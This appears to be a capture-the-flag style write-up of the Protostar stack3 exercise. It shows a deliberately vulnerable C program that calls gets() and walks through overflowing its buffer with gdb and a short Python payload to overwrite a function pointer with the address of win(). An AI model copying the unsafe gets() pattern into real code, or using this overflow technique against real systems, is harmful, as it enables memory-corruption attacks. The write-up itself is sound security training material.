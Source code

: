 ## Protostar exercises - [stack3](https://exploit-exercises.lains.space/protostar/stack3/)

#### About
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

both gdb and objdump is your friend you determining where the win() function lies in memory.
This level is at /opt/protostar/bin/stack3

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### Procedure:

Similar to stack0, the program is using `gets()` function to write input into a buffer. And the variable 'fp' which is a function pointer needs to be changed from 0 to address of 'win' function.

So first we need to find 'win' address using objdump and write it to the address of 'fp' variable

##### Vulnerability:

`gets` is vulnerable as it is impossible to tell how many characters gets() will reaed. it will continue to store the characters past the end of buffer.
`fgets` needs to be used instead.


##### Disassembly:

![disassembly](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack3/disassemble.PNG)

'fp' is stored at $esp+0x5c. It is moved into eax and called at 0x08048477. Out aim is to overwrite $esp value at this point. Lets put breapoint at this call.

```
break *0x08048475
```

Lets execute with input large enough to change $eax

```
r
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
![registers](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack3/registers.PNG)

We can see that $eax is changed to 0x41414141

We can find address of 'win' using `x win`
```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

Now, we need to find which part of input is being written to $eax and change it to 0x8048424

So, lets run with input AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS and check the registers

![registers-2](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack3/registers-2.PNG)

$eax contains 0x53535353, which is 'SSSS'

Lets create a simple python program to create the string
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
padding += "\x24\x84\x04\x08"
print padding
```
Lets use the output of this to run stack3

```
python stack3.py > exp
(gdb) r < /home/user/exp
info registers
```

We see $eax is now 0x8048424. So, next instruction would be to execute $eax or win() and print success

![done](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack3/done.PNG)

We can also find the address of win() using
```
user@protostar:/opt/protostar/bin$ objdump -x ./stack3 | grep win
08048424 g     F .text  00000014              win
```
